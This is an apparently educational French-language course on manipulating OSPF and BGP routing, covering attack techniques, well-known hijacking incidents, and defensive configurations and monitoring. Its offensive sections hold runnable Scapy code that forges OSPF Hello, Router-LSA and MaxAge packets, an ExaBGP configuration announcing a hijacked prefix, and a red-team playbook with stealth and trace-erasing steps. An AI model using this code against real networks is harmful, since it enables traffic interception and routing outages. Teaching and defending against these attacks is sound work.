

# Manipulation des Protocoles de Routage

## Objectifs du cours

Ce cours explore les techniques offensives et defensives liees a la manipulation des protocoles de routage. Comme tout système base sur la confiance, les protocoles de routage peuvent etre exploites par des attaquants pour intercepter, rediriger ou perturber le trafic réseau.

Competences visees :
- Comprendre les attaques par injection de routes OSPF (rogue router)
- Maitriser les techniques de BGP hijacking et manipulation d'AS_PATH
- Detecter et contrer ces attaques
- Appliquer ces connaissances en contexte Red Team et Blue Team

---

## Glossaire

### Termes d'attaque generaux

| Terme | Description |
|-------|-------------|
| **Route Injection** | Injection de fausses routes dans un protocole de routage |
| **Rogue Router** | Routeur non autorise injecte dans un domaine de routage |
| **Route Hijacking** | Detournement de routes pour intercepter le trafic |
| **Blackhole** | Route vers une destination inexistante (trafic perdu) |
| **Traffic Interception** | Interception du trafic via manipulation de routes |
| **Man-in-the-Middle (MitM)** | Attaque d'interception et potentielle modification du trafic |
| **Denial of Routing** | Perturbation du routage causant un deni de service |

### Attaques OSPF

| Terme | Description |
|-------|-------------|
| **LSA Injection** | Injection de faux Link-State Advertisements |
| **LSA Spoofing** | Usurpation de LSAs d'un routeur legitime |
| **Neighbor Spoofing** | Usurpation d'identite d'un voisin OSPF |
| **DR/BDR Manipulation** | Manipulation de l'election DR/BDR |
| **Area Injection** | Injection de routes inter-aires malveillantes |
| **MaxAge Attack** | Envoi de LSAs avec MaxAge pour supprimer des routes |
| **Seq++ Attack** | Incrementation du numero de sequence pour ecraser des LSAs |

### Attaques BGP

| Terme | Description |
|-------|-------------|
| **Prefix Hijacking** | Annonce d'un prefixe appartenant a un autre AS |
| **Subprefix Hijacking** | Annonce d'un prefixe plus spécifique pour detourner le trafic |
| **AS_PATH Manipulation** | Falsification du chemin d'AS pour paraitre legitime |
| **AS_PATH Prepending** | Ajout d'AS pour influencer la selection de route |
| **Origin AS Spoofing** | Usurpation de l'AS d'origine d'un prefixe |
| **Route Leak** | Fuite non autorisee de routes vers des AS tiers |
| **BGP Session Hijacking** | Prise de contrôle d'une session BGP etablie |

### Outils offensifs

| Outil | Description |
|-------|-------------|
| **Scapy** | Framework Python pour la creation de paquets personnalises |
| **ExaBGP** | Implementation BGP en Python pour l'injection de routes |
| **FRRouting (FRR)** | Suite de routage open source |
| **BIRD** | Daemon de routage BGP/OSPF |
| **Loki** | Outil d'attaque sur protocoles de routage |
| **Yersinia** | Framework d'attaque Layer 2/3 |

### Outils defensifs

| Outil | Description |
|-------|-------------|
| **RPKI** | Resource Public Key Infrastructure pour BGP |
| **ROA** | Route Origin Authorization |
| **BGPStream** | Detection d'anomalies BGP en temps reel |
| **RIPE RIS** | Service de monitoring BGP |
| **RouteViews** | Archive des tables BGP mondiales |
| **IRR** | Internet Routing Registry |

### Termes MITRE ATT&CK

| ID | Technique |
|----|-----------|
| **T1557** | Adversary-in-the-Middle |
| **T1583.006** | Acquire Infrastructure: BGP Hijacking |
| **T1565** | Data Manipulation |
| **T1498** | Network Denial of Service |

---

## Introduction aux attaques sur les protocoles de routage

Les protocoles de routage sont le coeur de la connectivite Internet et entreprise. Ils decident comment les donnees voyagent d'un point a un autre.

### Pourquoi les attaquants ciblent le routage

| Objectif | Technique | Impact |
|----------|-----------|--------|
| **Interception** | Redirection du trafic via l'attaquant | Espionnage, vol de donnees |
| **Modification** | MitM avec alteration des paquets | Injection de malware, falsification |
| **Disruption** | Blackhole, route flapping | Deni de service |
| **Reconnaissance** | Analyse du trafic redirige | Cartographie du réseau |

### Pourquoi les protocoles de routage sont vulnerables

| Protocole | Hypothese de confiance | Vulnerabilite |
|-----------|------------------------|---------------|
| **OSPF** | Tous les routeurs de l'aire sont legitimes | Pas de validation d'identite par defaut |
| **BGP** | Tous les AS cooperent honnetement | Pas de verification des annonces |
| **RIP** | Tous les voisins sont de confiance | Aucune authentification par defaut |
| **EIGRP** | Reseau d'entreprise ferme | Authentification optionnelle |

---

## Injection de routes OSPF avec Rogue Router



OSPF est un protocole IGP largement utilise qui calcule le chemin le plus court avec l'algorithme de Dijkstra. Il suppose que tous les participants OSPF sont de confiance. Cette hypothese est une faille majeure.

### Comment fonctionne l'injection de routes

Dans un scenario Red Team, un attaquant connecte un appareil rogue au réseau. Si cet appareil peut parler OSPF, il peut :

1. **Rejoindre le domaine OSPF** comme un faux routeur
2. **Annoncer de fausses routes** (pretendre etre le meilleur chemin vers un subnet critique)
3. **Influencer la table de routage** des appareils voisins
4. **Rediriger le trafic** vers lui-meme ou causer des pannes

### Deroulement de l'attaque

```
1. RECONNAISSANCE
   - Identifier le domaine OSPF (aire, type de réseau)
   - Capturer des paquets OSPF Hello (Wireshark, tcpdump)
   - Identifier les Router IDs et réseaux annonces

2. CONNEXION
   - Connecter l'équipement attaquant au réseau
   - Configurer OSPF avec les memes paramètres (aire, authentification si connue)

3. ETABLISSEMENT DE VOISINAGE
   - Envoyer des paquets Hello OSPF
   - Former des adjacences avec les routeurs legitimes
   - Echanger la LSDB

4. INJECTION DE ROUTES
   - Annoncer de fausses routes avec des metriques faibles
   - Exemple : "Je suis le meilleur chemin vers 10.0.0.0/8"

5. INTERCEPTION
   - Le trafic est redirige vers le rogue router
   - L'attaquant peut intercepter, modifier ou bloquer le trafic
```

### Exemple avec Scapy

```python
from scapy.all import *
from scapy.contrib.ospf import *

# Configuration de l'attaquant
ATTACKER_IP = "10.1.1.1"
ATTACKER_RID = "10.1.1.1"
OSPF_AREA = "0.0.0.0"
MULTICAST_OSPF = "224.0.0.5"

# Crafting d'un paquet OSPF Hello
ospf_hello = IP(src=ATTACKER_IP, dst=MULTICAST_OSPF, ttl=1) / \
             OSPF_Hdr(
                 version=2,
                 type=1,  # Hello
                 src=ATTACKER_RID,
                 area=OSPF_AREA
             ) / \
             OSPF_Hello(
                 mask="255.255.255.0",
                 hellointerval=10,
                 deadinterval=40,
                 router="0.0.0.0",
                 backup="0.0.0.0"
             )

# Envoi du paquet
send(ospf_hello)
print("[*] OSPF Hello envoye")
```

### Injection de LSA Type 1 (Router LSA)

```python
from scapy.all import *
from scapy.contrib.ospf import *

# LSA Type 1 malveillant
lsa_router = OSPF_Router_LSA(
    type=1,
    id=ATTACKER_RID,
    adrouter=ATTACKER_RID,
    seq=0x80000001,
    linkcount=1,
    linklist=[
        OSPF_Link(
            id="10.0.0.0",
            data="255.0.0.0",
            type=3,  # Stub network
            metric=1  # Cout tres faible pour etre préféré
        )
    ]
)

# Encapsulation dans un LSU (Link State Update)
ospf_lsu = IP(src=ATTACKER_IP, dst=MULTICAST_OSPF, ttl=1) / \
           OSPF_Hdr(
               version=2,
               type=4,  # LS Update
               src=ATTACKER_RID,
               area=OSPF_AREA
           ) / \
           OSPF_LSUpd(
               lsacount=1,
               lsalist=[lsa_router]
           )

send(ospf_lsu)
print("[*] LSA Router injecte")
```

### Attaque MaxAge

L'attaque MaxAge consiste a envoyer des LSAs avec l'age maximum (3600 secondes) pour les faire expirer immediatement et supprimer des routes :

```python
# LSA avec MaxAge pour supprimer une route
lsa_poison = OSPF_Router_LSA(
    type=1,
    id="10.0.0.1",  # Router ID de la victime
    adrouter="10.0.0.1",
    age=3600,  # MaxAge = expiration immediate
    seq=0x80000010  # Sequence superieure
)
```

### Cas d'usage Red Team

| Scenario | Objectif | Technique |
|----------|----------|-----------|
| **Exfiltration** | Detourner le trafic vers un subnet sensible | Route injection avec metrique faible |
| **VLAN escape** | Acceder a des VLANs isolés | Injection de routes inter-VLANs |
| **Denial of Routing** | Perturber les communications | MaxAge attack, route flapping |
| **Persistence** | Maintenir l'acces | Rogue router persistant |

---

## BGP Hijacking et manipulation d'AS_PATH

BGP est le protocole qui route les donnees entre systèmes autonomes (AS) a travers Internet. Il est critique et effrayamment vulnerable.

### Pourquoi BGP est vulnerable

BGP a ete concu avec l'hypothese que tous les AS cooperent. Il n'y a pas de validation integree des annonces. Cela le rend propice aux abus.

### Types de BGP Hijacking

| Type | Description | Efficacite |
|------|-------------|------------|
| **Prefix Hijack** | Annoncer un prefixe appartenant a un autre AS | Partielle (depend du routage) |
| **Subprefix Hijack** | Annoncer un prefixe plus spécifique | Totale (longest prefix match) |
| **AS_PATH Manipulation** | Forger des chemins d'AS pour paraitre legitime | Haute (evite la detection) |
| **Origin Spoofing** | Usurper l'AS d'origine | Haute (contourne RPKI basique) |

### Scenario : Subprefix Hijacking

```
Situation normale :
AS 65001 (legitime) annonce 203.0.113.0/24
Tout Internet route vers AS 65001

Attaque - Subprefix Hijack :
AS 65999 (attaquant) annonce 203.0.113.0/25 et 203.0.113.128/25
Routes plus spécifiques = préférées par tous
Tout le trafic vers 203.0.113.0/24 va vers l'attaquant
```

### Prerequis pour une attaque BGP

Pour realiser un BGP hijacking, l'attaquant a besoin de :

- Un routeur BGP compromis
- Une relation de peering avec un provider
- Ou un ISP upstream mal configure ou cooperatif

### Exemple avec ExaBGP

**Configuration ExaBGP :**

```ini
# exabgp.conf
process announce-routes {
    run /usr/bin/python3 /etc/exabgp/announce.py;
    encoder json;
}

neighbor 192.0.2.1 {
    router-id 198.51.100.1;
    local-address 198.51.100.1;
    local-as 65001;
    peer-as 65002;

    static {
        route 203.0.113.0/24 next-hop 198.51.100.1;
    }
}
```

Cette configuration envoie une route malveillante au peer, lui indiquant que votre routeur est le chemin vers 203.0.113.0/24.

### AS_PATH Forging

Les attaquants avances forgent des AS_PATH pour rendre leurs annonces credibles :

```
Faux AS_PATH : 64512 64513 64514 13335

13335 = ASN de Cloudflare
Pour un peer non averti, ca parait legitime.
```

### Interception vs Blackhole

| Type | Methode | Resultat |
|------|---------|----------|
| **Blackhole** | Annoncer le prefixe, drop le trafic | DoS |
| **Interception** | Annoncer, puis renvoyer vers destination legitime | MitM |

Pour l'interception, l'attaquant doit avoir un chemin alternatif (tunnel, autre peering) pour relayer le trafic vers la vraie destination.

```
Victime                 Attaquant               Destination
   │                        │                        │
   │──── Trafic ───────────>│                        │
   │                        │──── Tunnel/Alt ───────>│
   │                        │<────── Reponse ────────│
   │<─── Trafic modifie ────│                        │
```

---

## Incidents celebres de BGP Hijacking

### 2008 - Pakistan Telecom vs YouTube

| Element | Detail |
|---------|--------|
| **Attaquant** | Pakistan Telecom (AS 17557) |
| **Victime** | YouTube (208.65.152.0/22) |
| **Methode** | Annonce de 208.65.153.0/24 (more specific) |
| **Impact** | YouTube inaccessible mondialement pendant 2 heures |
| **Cause** | Tentative de censure locale propagee par erreur |

### 2018 - Amazon Route 53 Hijack

| Element | Detail |
|---------|--------|
| **Attaquant** | Inconnu (via eNet Inc, AS 10297) |
| **Victime** | Amazon Route 53 DNS |
| **Methode** | Hijack de prefixes DNS Amazon |
| **Impact** | Vol de ~$150,000 en cryptomonnaie (MyEtherWallet) |
| **Technique** | Redirection DNS vers faux site avec certificat valide |

### 2022 - KLAYswap (Coree du Sud)

| Element | Detail |
|---------|--------|
| **Attaquant** | Inconnu |
| **Victime** | KLAYswap (plateforme crypto coreenne) |
| **Methode** | BGP hijack + certificat SSL frauduleux (ZeroSSL) |
| **Impact** | Vol de $1.9 million en cryptomonnaie |
| **Technique** | Injection de JavaScript malveillant |

### Timeline typique d'une attaque BGP

```
T+0:00  - Attaquant configure son routeur BGP
T+0:01  - Annonce du prefixe hijacke
T+0:05  - Propagation aux peers directs
T+0:15  - Propagation mondiale (selon topologie)
T+0:20  - Trafic commence a etre redirige
T+2:00  - Detection par les outils de monitoring
T+4:00  - Reaction des operateurs
T+6:00  - Retrait de l'annonce malveillante
```

---

## Strategies defensives et techniques de detection

### Defense OSPF

#### 1. Authentification OSPF

```cisco
! MD5 (legacy mais repandu)
interface GigabitEthernet0/0
 ip ospf authentication message-digest
 ip ospf message-digest-key 1 md5 S3cr3tK3y!

! SHA (recommande)
key chain OSPF-AUTH
 key 1
  key-string S3cr3tK3y!
  cryptographic-algorithm hmac-sha-256

interface GigabitEthernet0/0
 ip ospf authentication key-chain OSPF-AUTH
```

#### 2. Passive Interface

```cisco
router ospf 1
 passive-interface default
 no passive-interface GigabitEthernet0/0
 no passive-interface GigabitEthernet0/1
```

#### 3. Filtrage de routes

```cisco
! Prefix-list pour filtrer les routes injectees
ip prefix-list OSPF-FILTER deny 10.0.0.0/8 le 32
ip prefix-list OSPF-FILTER permit 0.0.0.0/0 le 32

router ospf 1
 distribute-list prefix OSPF-FILTER in
```

#### 4. Utilisation d'aires stub

```cisco
! Limiter l'injection de routes externes
router ospf 1
 area 1 stub no-summary
```

#### 5. Monitoring et Logging

```cisco
! Alertes sur changements de voisins
logging trap notifications
snmp-server enable traps ospf state-change
snmp-server enable traps ospf lsa
```

### Detection OSPF

| Indicateur | Methode de detection |
|------------|----------------------|
| Nouveau voisin inattendu | `show ip ospf neighbor` + alertes |
| Changement de routes | Monitoring de la table de routage |
| LSA anormaux | Analyse de la LSDB |
| Flapping de routes | Logs et SNMP traps |
| Cout anormal | Audit des metriques |

### Defense BGP

#### 1. RPKI (Resource Public Key Infrastructure)

```cisco
! Configuration RPKI sur Cisco IOS-XR
router bgp 65001
 rpki server 10.0.0.100
  transport tcp port 8282
  refresh-time 300

 address-family ipv4 unicast
  bgp origin-validation enable
```

#### 2. Filtrage de prefixes

```cisco
! Bogon filter
ip prefix-list BOGON-FILTER deny 0.0.0.0/8 le 32
ip prefix-list BOGON-FILTER deny 10.0.0.0/8 le 32
ip prefix-list BOGON-FILTER deny 127.0.0.0/8 le 32
ip prefix-list BOGON-FILTER deny 169.254.0.0/16 le 32
ip prefix-list BOGON-FILTER deny 172.16.0.0/12 le 32
ip prefix-list BOGON-FILTER deny 192.168.0.0/16 le 32
ip prefix-list BOGON-FILTER deny 224.0.0.0/4 le 32
ip prefix-list BOGON-FILTER permit 0.0.0.0/0 le 24

router bgp 65001
 neighbor 10.0.0.2 prefix-list BOGON-FILTER in
```

#### 3. Maximum Prefix

```cisco
router bgp 65001
 neighbor 10.0.0.2 maximum-prefix 1000 80 restart 5
```

#### 4. AS_PATH Filtering

```cisco
! Rejeter les AS prives sur Internet
ip as-path access-list 10 deny _64[5-9][0-9][0-9]_
ip as-path access-list 10 deny _65[0-4][0-9][0-9]_
ip as-path access-list 10 deny _65[5][0-2][0-9]_
ip as-path access-list 10 deny _6553[0-5]_
ip as-path access-list 10 permit .*

router bgp 65001
 neighbor 10.0.0.2 filter-list 10 in
```

#### 5. Authentification TCP-MD5 / TCP-AO

```cisco
! MD5 (legacy)
router bgp 65001
 neighbor 10.0.0.2 password SecretKey123!

! TCP-AO (plus securise)
router bgp 65001
 neighbor 10.0.0.2 ao KEYCHAIN-BGP include-tcp-options
```

### Detection BGP

| Outil | Usage |
|-------|-------|
| **BGPStream** | Detection temps reel d'anomalies |
| **RIPE RIS** | Looking glass et historique |
| **RouteViews** | Archives des tables BGP |
| **BGPalerter** | Alertes sur changements de routes |
| **Cloudflare Radar** | Visualisation des anomalies |

### Script de monitoring BGP

```python
import pybgpstream

# Detecter les hijacks sur un prefixe
stream = pybgpstream.BGPStream(
    project="ris-live",
    record_type="updates",
    filter="prefix more 203.0.113.0/24"
)

for elem in stream:
    prefix = elem.fields["prefix"]
    as_path = elem.fields.get("as-path", "")
    origin_as = as_path.split()[-1] if as_path else "unknown"

    if origin_as != "65001":  # AS legitime attendu
        print(f"[ALERT] Potential hijack: {prefix} announced by AS {origin_as}")
```

---

## Playbook Red Team

### Methodologie d'attaque

```
1. RECONNAISSANCE
   [ ] Identifier les protocoles de routage utilises
   [ ] Capturer le trafic de routage (Hello, Updates)
   [ ] Identifier les aires/AS et les paramètres
   [ ] Verifier l'authentification

2. PREPARATION
   [ ] Configurer l'équipement d'attaque
   [ ] Preparer les routes a injecter
   [ ] Configurer le forwarding si MitM

3. EXECUTION
   [ ] Etablir la session/adjacence
   [ ] Injecter les routes malveillantes
   [ ] Verifier la propagation

4. POST-EXPLOITATION
   [ ] Intercepter le trafic cible
   [ ] Maintenir l'acces
   [ ] Documenter l'impact

5. NETTOYAGE
   [ ] Retirer les routes injectees
   [ ] Terminer les sessions
   [ ] Effacer les traces
```

### Techniques de discretion

| Technique | Description |
|-----------|-------------|
| **Injection ciblee** | Annoncer uniquement les prefixes nécessaires |
| **TTL manipulation** | Eviter la detection par TTL analysis |
| **Timing** | Attaquer pendant les heures creuses |
| **AS_PATH credible** | Utiliser des chemins realistes |
| **Cleanup rapide** | Retirer les routes apres exfiltration |

---

## Playbook Blue Team

### Detection et reponse

```
1. PREPARATION
   [ ] Deployer RPKI avec ROAs
   [ ] Configurer l'authentification (MD5/SHA)
   [ ] Mettre en place le monitoring (BGPStream, alertes)
   [ ] Documenter les routes legitimes

2. DETECTION
   [ ] Alertes sur nouveaux voisins OSPF
   [ ] Alertes sur annonces BGP inattendues
   [ ] Analyse des changements de routes
   [ ] Correlation avec autres événements

3. ANALYSE
   [ ] Identifier la source de l'attaque
   [ ] Evaluer l'impact (trafic affecte)
   [ ] Determiner la méthode d'attaque
   [ ] Collecter les preuves

4. CONFINEMENT
   [ ] Filtrer les routes malveillantes
   [ ] Isoler les segments affectes
   [ ] Contacter les upstream si BGP

5. REMEDIATION
   [ ] Corriger les configurations
   [ ] Renforcer l'authentification
   [ ] Mettre a jour les filtres
   [ ] Documenter l'incident
```

### Checklist sécurité routage

```
[ ] Authentification sur tous les peerings (OSPF MD5/SHA, BGP MD5/TCP-AO)
[ ] Passive-interface par defaut (OSPF)
[ ] RPKI deploye avec ROAs valides (BGP)
[ ] Filtrage de prefixes (bogons, max length)
[ ] Maximum prefix configure (BGP)
[ ] AS-path filtering (AS prives)
[ ] Monitoring des annonces (BGPStream, SNMP traps)
[ ] IRR (Internet Routing Registry) a jour
[ ] Documentation des topologies de routage
[ ] Tests de penetration periodiques
[ ] Plan de reponse aux incidents
```

---

## Ressources

| Ressource | Description |
|-----------|-------------|
| [MITRE ATT&CK T1583.006](https://attack.mitre.org/techniques/T1583/006/) | BGP Hijacking |
| [Scapy OSPF](https://scapy.readthedocs.io/en/latest/layers/ospf.html) | Documentation Scapy OSPF |
| [ExaBGP](https://github.com/Exa-Networks/exabgp) | Implementation BGP Python |
| [BGPStream](https://bgpstream.caida.org/) | Monitoring BGP temps reel |
| [RPKI Documentation](https://rpki.readthedocs.io/) | Guide de deploiement RPKI |
| [MANRS](https://www.manrs.org/) | Bonnes pratiques sécurité routage |

---

## Labs TryHackMe

| Room | Description | Lien |
|------|-------------|------|
| **Intro to Networking** | Fondamentaux réseau | https://tryhackme.com/room/introtonetworking |
| **Wireshark: The Basics** | Capture et analyse de paquets | https://tryhackme.com/room/wiresharkthebasics |
| **Network Services** | Services et protocoles réseau | https://tryhackme.com/room/networkservices |
| **Attacking and Defending AWS** | Concepts de routage cloud | https://tryhackme.com/room/introtocloudpentest |

> **Note** : Les attaques sur les protocoles de routage sont des techniques avancees. Pour la pratique :
> - Utilisez un lab isolé (GNS3, EVE-NG)
> - Les CTF specialises en infrastructure (DEFCON Router Hacking Village) proposent des challenges pertinents
> - Consultez le framework MITRE ATT&CK pour le contexte offensif
